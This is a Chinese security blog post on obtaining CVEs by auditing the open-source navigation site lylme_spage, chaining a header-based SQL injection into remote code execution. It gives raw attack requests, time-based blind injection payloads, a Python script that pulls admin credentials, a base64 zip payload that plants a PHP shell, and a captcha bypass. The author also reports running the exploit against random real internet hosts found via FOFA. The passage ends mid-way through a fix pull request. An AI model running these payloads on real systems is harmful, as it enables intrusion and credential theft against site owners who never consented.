


# 开源项目CVE详细指南: 从SQL注入到Shell的完整探索 - 先知社区

开源项目CVE详细指南: 从SQL注入到Shell的完整探索

- - -

## 本文背景

  撰写本文源于有人问是否了解CVE漏洞编号，并希望笔者提供一些获取CVE编号的建议。获取一个高质量的CVE漏洞编号一直是自己的想法，但因为能力问题和一些其他原因导致一直没有实现，所以每次被问到，自己都不禁思量水一般的CVE有意义么？最后答案是: 有，在现实中，妥协能够熟悉通往成功的路。本文由此自然而形成，分享的目的在于提供有代审基础的师傅获取一个退而求其次且相对来说不那么水的CVE编号的完整指南。

## 目标的筛选

优先推荐筛选 Github Start >= 300, fofa/Hunter 搜索相关项目其IP独立数在 500 以上的项目进行审计，这也是目前漏洞赏金平台收录的入门门槛。

因为这样的项目，一般来说漏洞的代码不会特别明显，如果一眼看过去项目代码跟`Sqli-Labs`项目靶场写的一样的话，那么我觉得这是不利于学习且价值较低的经历。

一个被认可有价值的项目就会有真实的应用，必然就会遭受真实的攻击，反过来促进代码的安全质量，审计一个相对来说没那么苛刻但也没那么简单的项目对于个人的提高是有好处的，所以开源的Github项目是获取CVE编号的最佳选择之一，同时，一个不错质量的CVE编号必然是前台的如RCE或者代码执行之类能直接控制目标服务器，同属于**Critical**类别的漏洞。

基于此目标，本文针对 [https://github.com/LyLme/lylme\_spage](https://github.com/LyLme/lylme_spage) 开源项目展开,挖掘到一个前台SQL注入Chain一个后台任意文件上传的漏洞,最终实现无限制GetShell的效果，经统计，该项目Fork 72， Star 313， fofa 独立IP 800+，有效资产2400+。

## 分析鉴权机制

> 下载、部署和调试的环境，可以参考网上或者我以前写的文章，这里就不进行展开。

第一步是确认后台是否存在鉴权机制，后台文件目录所在位置: `/admin`

鉴权主要是通过一个关键变量`$islogin`来判断，后台目录的文件分为两种直接判断或者引入`head.php`文件间接判断。

比如`admin/ajax_link.php` 直接判断 `$islogin` 是否存在，否则`exit`程序退出。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134429-0881e5da-8ce8-1.png)

分析其他的文件，如`admin/index.php`,发现并没有代码直接判断`$islogin`,但是引进了`head.php`文件，跟进去看看实现。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127141012-9ffc884a-8ceb-1.png)

可以看到在第2行同样地对 `$islogin` 这个关键变量进行判断，不通过则直接`exit`中断程序向下继续执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127141026-a822d5ce-8ceb-1.png)

## 绕过鉴权受阻

  一般而言，绕过鉴权的方式有两种思路，第一种思路是找是否存在由于开发者大意或者说功能定位相对模糊故没有加上鉴权的漏洞文件，定位这种文件的并不难，通过 `grep` 命令筛选出没有直接进行判断特征的文件

```plain
grep -v --include "*php*"  -rl 'isset($islogin)' ./admin
```

然后重点关注筛选后的文件有没有包含`head.php`，这可以配合 `xargs` 命令轻松找到仅有的两个文件。

```plain
grep --include "*php*"  -rL 'isset($islogin)' ./admin|xargs -I {} grep -n -L 'head.php' {}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134527-2b25a55e-8ce8-1.png)

分别审计这两个文件，一眼看下去，果断放弃第一种思路，快速转向第二种思路。

```plain
./admin/cache.php
./admin/footer.php
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134542-3413d99c-8ce8-1.png)

第二种思路指的是尝试绕过验证的逻辑，常见的经典技巧主要有 **变量覆盖**、**敏感文件泄漏** 和 **代码逻辑漏洞**等，不过很可惜，我仔细研读整个鉴权逻辑，只能感概越简单的东西越少攻击面，首先全局搜索`$islogin`,只找到一处赋值，位于`include/member.php`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134601-3f16adec-8ce8-1.png)

其中 `member.php` 被 `include/common.php`加载，`common.php`作为基础文件会被所有文件包含，核心鉴权逻辑就是位于`member.php`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134623-4c32c2c2-8ce8-1.png)

鉴权的代码比较简单，并不复杂，分析看看。

```plain
<?php 
if(isset($_COOKIE["admin_token"]))
{
    $token=authcode(daddslashes($_COOKIE['admin_token']), 'DECODE', SYS_KEY);
    list($user, $sid) = explode("\t", $token);
    $session=md5($conf['admin_user'].$conf['admin_pwd']);
    if($session==$sid) {
        $islogin=1;
    }
}
?>
```

这段代码里面`authcode`作为加解密函数，无论是否存在漏洞都不会影响检验`$session`比较，所以说这里是绕不过鉴权的，顺带一提的话，检验比较用的是`==`进行比较，并没有`===`进行强验证，这样的设计就埋下一个弱类型的漏洞

当 `md5($conf['admin_user'].$conf['admin_pwd'])` 的结果为`1abcssfasfaxxxxxxxxxxx` 之后，只需要构造`$sid`为1即可绕过验证，但是整体来说非常鸡肋，弱类型漏洞在实战利用性和可观赏性非常有限，这不是我心目中的第一枚CVE应该有的样子，这个时候该放弃么？不是的，去找找其他的攻击面，在你没完全弄懂这套程序之前，都不要放弃，算是一个"**忠告**"吧。

## 前台SQL注入漏洞

  前面分析寻找鉴权绕过的时候，程序代码给我的感觉就是"我能行"，然后突然给你冒出一句鉴权的代码且基本不可能绕过的那种情况，从这个现象，隐约可以感受到开发者对安全是有一定认知水平的。

于是，我将分析的重心放在前端用户交互且无需认证的功能上，作为一个导航类网站，交互功能点是比较少的，这样的程序，因为攻击面太少，实际漏洞挖掘中此类项目表现为易守难攻的特点。

漏洞点所在位置: `apply/index.php`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134646-59d0f412-8ce8-1.png)

很明显可以看到，整段代码的执行流都是可以由前端进行控制的——程序走正常流程必须支持的功能，所以重点关注这一段函数调用。

```plain
apply($_POST['name'], $_POST['url'], $_POST['icon'], $_POST['group_id'], $status)
```

跟进`apply`函数，一开始我还是聚焦在`$_POST`这个可控数组，所以第一眼看过去前面的处理流程，基本XSS和SQL注入凉了一半。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134708-66ff935a-8ce8-1.png)

当然，此时我的内心是在祈祷的，万一参数没用单引号括起来，还是可以试试的。

```plain
$sql = "INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, '".$name."', '".$url."', '".$group_id."', '".$icon."', '".$userip."', '".$date."', '".$status."');";
```

虽然SQL语句将变量直接拼接，但是没有例外的惊喜——可控变量都被单引号括起来了，不过我们看到其中一个变量`$userip`,这个变量也是代码审计中容易被忽略的，特别是被它赋值的函数名字 `get_real_ip` 所迷惑，函数暗示用于获取用户真实IP，跟进去看看其具体实现。

函数所处文件位置: `include/function.php`

```plain
//获取客户端IP
function get_real_ip() {
    $real_ip = '';
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $arr = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $pos = array_search('unknown', $arr);
        if (false !== $pos) {
            unset($arr[$pos]);
        }
        $real_ip = trim($arr[0]);
    } elseif (isset($_SERVER['HTTP_CLIENT_IP'])) {
        $real_ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (isset($_SERVER['REMOTE_ADDR'])) {
        $real_ip = $_SERVER['REMOTE_ADDR'];
    }
    return $real_ip;
}
```

首先函数通过获取`X_FORWARDED_FOR`来获取用户真实IP，那么是不是SQL注入就稳了呢？先别高兴太早，如果我们构造`X_FORWARDED_FOR`来注入的话，会没办法去证明危害，原因在于开发者处理的时候，考虑了`X_FORWARDED_FOR`可能存在以`,`分割多个值的情况，选择只取以`,`分割的数组的第一个IP,这样子会导致我们没办法调用任何一个需要传递两个参数以上的函数，因为`,`是没办法取到的了，这在`INSERT`的SQL注入类型基本是无解的。

不过这个函数写的非常有趣，非常合理也非常不安全，开发者选择第二个方案利用`HTTP_CLIENT_IP`，实际上这个值是可以受HTTP头控制的，至此完成无限制SQL注入漏洞的发现。

```plain
POST /lylme_spage-master/apply/index.php?submit=post HTTP/1.1
Host: localhost:7777
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 68
Client-Ip: 127.0.0.1'
Connection: close
Cookie: Hm_lvt_3824e56a483ef95673d119166354712c=1683402807,1683697221,1683715543,1683916624; csrftoken=K667NTcmO0EB6uHLMRWWV5WRYOpNr3UsU3GckzwMR31xBv0f8B0lr7E7x1njt1Vg; XDEBUG_SESSION=PHPSTORM; PHPSESSID=2157227620502bce8ccaded635165ba2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

url=http%3A%2F%2Fqq.com1213&name=test&group_id=1&icon=&authcode=1206
```

加上单引号报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134734-7665cf9e-8ce8-1.png)

两个单引号正常

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134746-7df3845e-8ce8-1.png)

## 坎坷的注入点

  还是那句话，先别高兴太早，因为这是一个`INSERT`类型的注入，考虑的利用比较少，主要是堆叠、报错、布尔和时间盲注这几类相对少见的攻击方式。

跟进 `$DB->query($sql)`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127134804-88a0b688-8ce8-1.png)

数据库操作主要通过`mysqli_query`函数执行SQL语句，可以看到函数的返回值是布尔类型的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135123-ff40a406-8ce8-1.png)

因为没有用到 `multi_query` 支持多语句查询和使用 `mysqli_error($this->link)` 获取SQL错误内容，基于此类情况，堆叠和报错的这两种利用方式就可以放弃了。

下面主要考虑布尔注入和时间盲注这两种类型的可利用性如何

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135139-08d2191e-8ce9-1.png)

如果我们考虑布尔注入，就需要根据代码构造出条件，其中`$status`变量读取配置文件中是否开启允许申请收录(默认允许即该值默认为1)

所以这样子来看，`insert`执行的结果只有两种，第一种是插入成功，第二种SQL语句执行失败,返回"未知错误"。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135153-110f377e-8ce9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135202-1648674c-8ce9-1.png)

乍看，想直接通过SQLMAP一把梭哈的话（如果这样都行，扫描器都能扫出来了），此处漏洞利用有二个比较明显的问题

其一:

在进入SQL查询之前，针对每次提交都会将验证码`$_REQUEST['authcode']`与`$_SESSION['authcode']`进行校验，但是通过全局搜索`$_SESSION['authcode']`你会发现这个值只有在`validatecode.php`执行的时候才会被刷新，换句话来说，只要你不去刷新加载验证码，那么你只需要输入一次验证码即可，后续可以**验证码复用**，第一个问题并不算什么问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135224-23405e82-8ce9-1.png)

其二:

传入的$url的值，不能重复，否则`return('{"code": "-3", "msg": "链接已存在，请勿重复提交"}');`，那么是不是只要加一个随机字符串让他每次都不一样就好了呢？ 这种方法可以，比如我们利用SQL探测`user()`的第一个字母是不是`r`,如果是时间盲注的话，很容易构造出下面这样的payload:

> insert 注入类型特别注意下 Mysql 在不同上下文解析表达式的时候和 select 执行的结果是不一样的
> 
> 故做值比较的时候务必将弱类型特点考虑进去，从而使两边的比较的值类型一致，比如 '0a' > sleep(1), 而 'a'>sleep(1) 是不行的，

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135244-2f708984-8ce9-1.png)

如下图所示，延时成功，但是每次尝试的时候，都需要`url`保持唯一性，虽然说可以写个脚本控制`url`每次都不同,但是这样做的弊端非常明显，无论成功与否你都会在数据库插入大量的数据，甚至跑完一圈下来，可能直接把申请页面都撑爆，作为一个"0day"漏洞，这样子也太狼狈了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135258-376f323e-8ce9-1.png)

如图所示，不延时，说明`user()`不等于113，但这样去操作虽然可以，但每次都要修改`url`还会插入一条待审核数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135311-3fbf0446-8ce9-1.png)

## 巧妙利用报错特性

  那么有没有办法，让他判断不等于的时候，让`if`的第二个条件出错呢？这里又涉及到一个很巧的trick，报错很多人第一时间想的是`updatexml`、`extractvalue`这些非常经典的报错语句，但是这个由于执行顺序不同，会比`if`优先执行报错，这样子无论正确与否都会导致错误，没办法做区分,这个时候就可以用到`exp(999)`来绕过这个限制

```plain
# extractvalue
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),extractvalue(1,user()))>'', '2023-10-07 22:14:25', '0');

 # updatexml
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),updatexml(1,user(),0))>'', '2023-10-07 22:14:25', '0');

# exp(999)
INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),exp(999))>'', '2023-10-07 22:14:25', '0');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135329-4a795364-8ce9-1.png)

但是这样我还是觉得不够的，因为当`if`判断正确的时候，语句延时之后还是会执行成功，然后又回到之前的问题，此时注入的效率就跟注入的目标数据成正相关的关系，实际解决这个问题办法很简单，只需要再sleep(5)执行之后再拼接一个`exp`即可

```plain
Client-Ip:0'>if(ord(substring(user(),1,1))=114,sleep(5)&exp(999),exp(999))>'
```

## 脚本自动化利用

系统的全局设置内容是从数据库的`lylme_config`表读出来的，里面包括后台账号密码且都是明文的形式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135353-583becd2-8ce9-1.png)

如下所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135429-6db16c72-8ce9-1.png)

由于是SQL时间盲注，写一个快速利用脚本是有必要的。

```plain
def exploit(target, cookie, authcode, timeout=5):
    origin_payload = "select group_concat(v) from lylme_config where k like 'admin%'"
    # 获取长度
    length_payload = f"length(({origin_payload}))"
    # 延时5s
    if timeout < 1:
        timeout += 1
    length = 0
    while True:
        length += 1
        final_length_payload = f"0'>if({length_payload}={(length)},sleep({timeout})&exp(999),exp(999))>'"
        print(f"[*] Trying Length: {length}")
        r1 = post(target, cookie, authcode, final_length_payload)
        if r1.elapsed.total_seconds() > timeout-1:
            break
        if length > 9999:
            print("[-] No Vuln")
            exit(-1)
    print(f"[+] Success, Secret Length: {length}")
    user_and_pwd = ""
    secret_payload = "ord(substring(({origin_payload}), {start}, 1))"
    for index in range(1, length + 1):
        for char in fuzz_string:
            _secret_payload = secret_payload.format(origin_payload=origin_payload, start=index)
            final_secret_payload = f"0'>if({_secret_payload}={ord(char)},sleep({timeout})&exp(999),exp(999))>'"
            # print(f"[*] Tring Secret Char: {char}")
            r2 = post(target, cookie, authcode, final_secret_payload)
            if r2.elapsed.total_seconds() > timeout-1:
                user_and_pwd += char
                break
            if fuzz_string.find(char) == (len(fuzz_string) - 1):
                print("[-] Error, Fuzz string is not in correct strings!!!")
                exit(-1)
        print(f"[+] Secret: {user_and_pwd}")
    return user_and_pwd
```

网络情况好的话，可以在两分钟内拿到后台的账号和密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135414-6540710a-8ce9-1.png)

## 解压无文件 GetShell

  浏览后台目录的文件时，有一个解压zip的操作成功吸引我的注意，漏洞文件位于: `admin/ajax_link.php`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135451-7b50f668-8ce9-1.png)

其中`$RemoteFile` 可以由 `$_POST['file']`完全控制，然后通过`copy`复制并重命名，接着直接解压至根目录，简单地来讲，只要我们上传一个压缩的zip文件到服务器的任意位置，那么就可以GetShell，找一个上传点并不难，但是我们当前可是在PHP环境下耶？ PHP是世界上最好的语言，怎么可能 GetShell 需要那么麻烦是吧？

如果你了解php支持的[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php#wrappers)，即我们常说的伪协议，那么这个问题迎刃而解。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135504-8286cfde-8ce9-1.png)

利用该漏洞的步骤如下:

1) 通过 `zip`命令将内容`<?php phpinfo();?>`的`1.php`压缩为 `1.php.zip`

```plain
zip 1.php.zip 1.php
```

2) PHP 写一个 base64 加密的Binary文件的 `exp.php`

```plain
<?php

// 读取二进制流
$binaryData = file_get_contents('1.php.zip');

// 转换为 base64 编码字符串
$base64String = base64_encode($binaryData);

// 输出结果
echo $base64String;
```

3) 获取第二步的结果，构造最终的payload

```plain
POST /lylme_spage-master/admin/ajax_link.php?submit=update HTTP/1.1
Host: localhost:7777
Connection: close
Cookie: admin_token=ec2a3HYAaqQws10zQfeSJaDeJN1aI2gOnV9BLpaHNYdb2hHPQ9nYkoMzuOuQIokfoyJRVcVNK3aT8JUZXq5WSPqTBQ;
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

file=data://text/plain;base64,UEsDBBQAAAAIALMUSFdQg8x9EgAAABIAAAAFAAAAMS5waHCzsS/IKFAA4sy8tHwNTWt7OwBQSwECFAMUAAAACACzFEhXUIPMfRIAAAASAAAABQAAAAAAAAAAAAAAgAEAAAAAMS5waHBQSwUGAAAAAAEAAQAzAAAANQAAAAAA
```

4) 解压成功之后会返回"success", 之后直接访问生成的Shell即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135519-8be6c002-8ce9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135529-91f5f936-8ce9-1.png)

上面的利用步骤稍显繁琐，压缩包payload的构造直接使用Python来实现，做到在减少环境依赖的同时也能开箱即用。

```plain
def get_shell_payload(shell_name="1.php", shell_content="<?php phpinfo();?>"):
    import zipfile
    import base64
    import io
    zip_data = io.BytesIO()

    # 创建一个ZipFile对象，但将其关联到内存中的文件对象
    with zipfile.ZipFile(zip_data, 'w', zipfile.ZIP_DEFLATED, False) as zipf:
        file_contents = shell_content
        zipf.writestr(shell_name, file_contents)

    # 获取内存中的压缩包数据
    zip_data.seek(0)  # 将文件指针移至开头
    zip_binary = zip_data.read()
    # base64
    payload = "data://text/plain;base64,{}".format(base64.b64encode(zip_binary).decode())
    return payload
```

## Py 全自动 GetShell

  作为一个合格的漏洞利用程序，那么它的目标一定是不希望使用者要去进行交互获取到一定信息再填入到程序里面，比如本次的漏洞利用需要第一次的验证码，那么真如上文所述那样真的没有办法么？

让我们仔细看一下负责验证码的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203413-6fe8bc46-8dea-1.png)

`$_SESSION` 这个变量跟`Cookie:PHPSESSID`有关，所以思路很简单，同时去掉`authcode`和`session`，让他们的值都为`NULL`就可以绕过验证码了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203418-730a69d8-8dea-1.png)

这个思路，一开始确实没有想到，因为当时觉得获取一次验证码并不算太复杂，但是后来想Py搞定验证码识别，觉得有点复杂，所以回头想一下，Bingo， 一试就出来。

完整的攻击EXP:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127142008-035ce0dc-8ced-1.png)

从 FOFA 随机选一个没有WAF的目标对脚本进行测试，0day，一打一个准，基本都是秒的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135619-af52b596-8ce9-1.png)

脚本运行效果如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135655-c4d27852-8ce9-1.png)

## 赋予漏洞 CVE 编号

  漏洞的存在有其合理性，赋予漏洞一个CVE编号不仅于自己而言是一个荣誉，更是自己对自己认可和激励，激励自己不断去突破自身上限从而去挖掘更有趣更高级的漏洞。

> CVE 概述:
> 
> CVE 是通用漏洞披露（Common Vulnerabilities and Exposures）的英文缩写，列出了已公开披露的各种计算机安全缺陷。CVE 识别号由 CVE 编号管理机构（CNA）分配。全球目前[约有 100 个 CNA](https://blog.xiaohack.org/go/aHR0cHM6Ly9jdmUubWl0cmUub3JnL2N2ZS9yZXF1ZXN0X2lkLmh0bWw)，包括各大 IT 供应商以及安全公司和研究组织。
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20231127142110-2878b832-8ced-1.png)

因为挖掘项目本身是开源在Github的: [https://github.com/LyLme/lylme\_spage](https://github.com/LyLme/lylme_spage) 后续CVE申请所需要填写的漏洞详情链接 ISSUE 可以在Github 上提交。

第一次不知道怎么写 ISSUE 的时候，有个小技巧，他山之石可以攻玉，提包需要提交一个SQL注入漏洞为例:

搜索SQL: [https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=SQL](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=SQL), 然后在页面搜索 "github"关键字会发现很多开源的项目，然后去看看别人是怎么写的ISSUE。

> 在查阅过程中，发现CVE编号对应的漏洞质量很多都是惨不忍睹的，不过值得一提的报告相对规范简洁很多。

CVE的报告说明需要用英语写，翻译推荐: [https://www.deepl.com/](https://www.deepl.com/) ，英文版本的报告会让外国审核理解起来方便不少，有利于审核通过，更能帮助你提高通过效率的是写一个完整的包含五个步骤的Issue:

> 1）复现步骤 2）预期行为 3）实际行为 4）受影响的版本 5）修复建议

具体可以看我在Github上提交的漏洞细节Issue:

[https://github.com/LyLme/lylme\_spage/issues/32、https://github.com/LyLme/lylme\_spage/issues/33](https://github.com/LyLme/lylme_spage/issues/32%E3%80%81https://github.com/LyLme/lylme_spage/issues/33)

完成ISSUE之后，需要前往CVE 提交平台网址: [https://cveform.mitre.org](https://cveform.mitre.org/) ，具体的提交步骤详情如下

> 注意事项: 不带 \*，不强制要求的字段都是可以不填的，直接忽略即可。

1.  **Select a request type**: 选择 Report Vulnerability/Request CVE ID 申请CVE编号
    
2.  **Enter your e-mail address**: 填写你接收CVE审核信息的邮箱
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135717-d2132098-8ce9-1.png)

1.  **Number of vulnerabilities reported or IDs requested (1-10)**: 我是组合漏洞，有两个故选择 2
    
2.  **Vulnerability type**: 漏洞类型选择 SQL Injection
    
3.  **Vendor of the product(s)**: 系统供应商可以填写开源项目的作者ID LyLme
    
4.  **Affected product(s)/code base**:受影响的软件产品或者代码库，填写产品和版本
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135730-d9bba6c6-8ce9-1.png)

1.  **Attack type**: 攻击类型，一般勾选 Remote 远程攻击，非本地
    
2.  **Impact**: 漏洞影响，SQL注入一般就是 Information Disclosure 敏感信息泄漏
    
3.  **Affected component(s)**：影响组件,可以写影响的文件、函数和字段。
    
    ```plain
    Affected Source Code Files:  function.php
    Affected Functions/Methods: get_real_ip()
    Affected Input Fields/Parameters: Client-Ip
    ```
    
4.  **Attack vector(s)** : 攻击向量可以写payload，然后附加漏洞细节 Issue 的地址
    
    ```plain
    HTTP Header:
    Client-Ip: 0'>if(1,sleep(10),2)>'
    Details can be seen in https://github.com/LyLme/lylme_spage/issues/32
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135746-e37606e8-8ce9-1.png)

1.  **Suggested description of the vulnerability for use in the CVE**:
    
    此处填写漏洞描述，会直接展示在CVE描述里面，参考模版如下,只需要将\[custom\] 根据实际情况自定义即可
    
    > A vulnerability has been found in \[lylme\_spage v1.7.0\] and classified as \[critical\]. Affected by this vulnerability is the file \[/include/function.php\]. The manipulation of \[the HTTP Header Client-Ip\] leads to \[sql injection\]. The attack can be launched remotely. CWE Definition of the Vulnerability \[CWE-89\].
    
2.  **Discoverer(s)/Credits**: 漏洞发现者或者组织,个人的话，直接填写自己的ID即可
    
3.  **Reference(s)** : 参考链接的话，直接填上Issue的地址即可
    

填完第一个CVE的申请要求之后，如图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135924-1dd7b336-8cea-1.png)

继续向下拉，即可填写第二个CVE的申请表，流程和SQL注入大差不差，限于篇幅就省略具体内容了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135937-253d8b28-8cea-1.png)

最后输入验证码提交之前，记得回头检查下自己写的内容，没有问题就直接进行提交即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127135958-324eb512-8cea-1.png)

提交完会显示一个提交成功的公告页面，并且你的邮箱会收到一封CVE团队发给你的邮件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140010-396d18e8-8cea-1.png)

邮件里面提到，如果你想更改CVE的报告内容，后续可以通过邮件与他们沟通进行修改。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140023-40e4f28a-8cea-1.png)

大概过了8天，CVE官方会给邮箱发来标题为 **your CVE ID requests** 的邮件，里面说明给你分配的漏洞CVE编号: CVE-2023-45951、CVE-2023-45952

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140130-68bf2398-8cea-1.png)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45951、https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45952](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45951%E3%80%81https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45952)

> CVE 审核很负责的，可能我的Description写的不是很好，他会给你改成非常官方直接的描述，这个值得参考学习。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140140-6f1baec8-8cea-1.png)

然后你去google搜索相关CVE编号，可以看到很多网站都已经进行收录，查找相关资料时发现看到别人的一些漏洞是处于"保留状态的"

这个原因的话如下图所示，如果漏洞真实有效的话，可以去CVE申请公开。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140203-7ca1ce06-8cea-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140223-88ae142a-8cea-1.png)

后续漏洞的CVSS评分会由NVD团队完成，如下图可以看到当前漏洞还在等待CVSS评分中

[https://nvd.nist.gov/vuln/detail/CVE-2023-45951](https://nvd.nist.gov/vuln/detail/CVE-2023-45951)

[https://nvd.nist.gov/vuln/detail/CVE-2023-45952](https://nvd.nist.gov/vuln/detail/CVE-2023-45952)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140248-9732dd0a-8cea-1.png)

大概过了数天，就会有评分了，最终两个漏洞都获得了9.8的高分。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140258-9d5e4cfa-8cea-1.png)

## 开源传承 PR 提交修复补丁

### 什么是PR?

GitHub 上一般通过提交 PR（Pull Request）的方式，向开源项目合并代码。

### 提交 PR 步骤

1) fork目标仓库到自己的Github账号的仓库。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140321-ab0862a0-8cea-1.png)

2) `git clone git@github.com:mstxq17/lylme_spage.git` 复制代码仓库到本地。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140332-b19e9774-8cea-1.png)

3) 同步拉取远程最新的代码，创建新分支bugfix，修复漏洞文件后commit提交到本地，并同步pull到远程仓库。

```plain
cd lylme_spage/
git checkout -b bugfix
git add include/function.php
